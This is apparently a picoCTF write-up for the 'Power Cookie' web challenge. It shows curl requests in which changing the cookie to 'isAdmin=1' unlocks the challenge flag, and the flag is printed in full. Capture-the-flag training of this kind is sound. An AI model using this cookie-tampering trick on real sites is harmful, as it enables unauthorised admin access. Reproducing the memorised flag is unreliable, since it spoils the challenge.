 

Check with "curl" command. Before that make sure you know how to set up with cookies from View page, then see about "isAdmin=0" ---> 0 is False, set True = 1



┌──(kali㉿kali)-[~/picoCTF/web_exploitation/power_cookie]
└─$ curl http://saturn.picoctf.net:61319/check.php                            




<html>
<body>



<p>Please visit our <a href='/'>homepage</a> and continue as guest.</p>


</body>
</html>
                                                                                          
┌──(kali㉿kali)-[~/picoCTF/web_exploitation/power_cookie]
└─$ curl http://saturn.picoctf.net:61319/check.php --cookie "isAdmin=0"




<html>
<body>



<p>We apologize, but we have no guest services at the moment.</p>


</body>
</html>
                                                                                          
┌──(kali㉿kali)-[~/picoCTF/web_exploitation/power_cookie]
└─$ curl http://saturn.picoctf.net:61319/check.php --cookie "isAdmin=1"




<html>
<body>



<p>picoCTF{gr4d3_A_c00k13_65fd1e1a}</p>


</body>
</html>


---> picoCTF{gr4d3_A_c00k13_65fd1e1a}